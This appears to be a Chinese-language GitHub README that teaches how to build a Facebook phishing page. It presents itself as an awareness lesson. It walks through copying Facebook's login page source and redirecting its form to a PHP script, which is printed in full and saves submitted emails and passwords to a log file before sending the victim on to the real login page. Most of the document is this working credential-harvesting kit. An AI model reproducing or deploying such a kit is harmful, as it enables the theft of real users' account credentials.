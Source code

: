 # Facebook釣魚架設     

## 前言
此教程展示主要是要告訴大家，釣魚網站製作可以很簡單，所以大家在使用網頁時，針對可疑的連結不要輕易去點，網址記得要去查看是否為正確，或是把常用的連結弄成書籤，以避免被釣魚網站竊取帳密

## 影片展示
https://www.youtube.com/watch?v=t0YWDlTCjr4

##　製作過程
#### FB釣魚頁面製作(index.html)
先在真正的Facebook頁面按右鍵"檢視原始碼"

![](image/a.png)

把原始碼都複製下來

![](image/b.png)

貼在自己的index.html

然後用Ctrl+F 尋找"form"，把action後的內容改成login.php

![](image/c.PNG)

### php 後端程式編寫(login.php)
```php
<?php
$passwd = $_POST["pass"];
$account = $_POST["email"];
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
?>
<html>
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
<body>
Something goes wrong.Redirecting.......
</body>
</html>
```
```php
$passwd = $_POST["pass"];
$account = $_POST["email"];
```
以上帳號密碼的名稱可以從form表單得知
![](image/d.PNG)

以下為php語法，把前端輸入的帳號密碼寫到logfile.txt檔案裡
```php
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
```
跳轉到真正的FB頁面
```html
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
```